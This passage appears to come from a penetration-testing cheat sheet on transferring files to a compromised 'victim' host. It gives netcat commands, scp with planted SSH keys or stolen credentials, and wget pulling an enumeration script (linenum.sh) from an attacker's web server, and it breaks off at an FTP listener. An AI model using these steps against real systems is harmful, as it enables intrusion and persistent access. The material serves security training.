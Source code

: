 On the attacker host:

```text
nc 192.168.0.10 4444 < file.exe
```

On the victim:

```text
ncat.exe -lvp 4444 > file.exe
```

## Linux

### scp

A built in SSH utility to trasfer files. once you gained access to the victim you can add a your pulic key to `.ssh/authorized_keys` or use credentials if found

Using public/private key - once a public key was copied to the victim .ssh folder, you can transfer files from the attacker to the victim by running:

`scp file.exe -i id_rsa user@victim:/tmp/`

The file will be transferred to the `/tmp` folder.

If you gained crednetials remove the `-i id_rsa` and login with the same command as above.

### wget 

wget is used to download files to the victim, run a web sever on the attacker by running:

```text
python3 -m http.server
```

and download from the victim:

```text
wget 192.168.0.1:8080/linenum.sh
```

### curl 

Curl is used to view web server source code, we can download files by running

```text
 curl https://url -o output.file.name
```

### ftp

linux has a build in ftp utility, first created a listerner on the attacker host:

```text
apt-get install python-pyftpdlib  
python -m pyftpdlib -p 21 -w
```
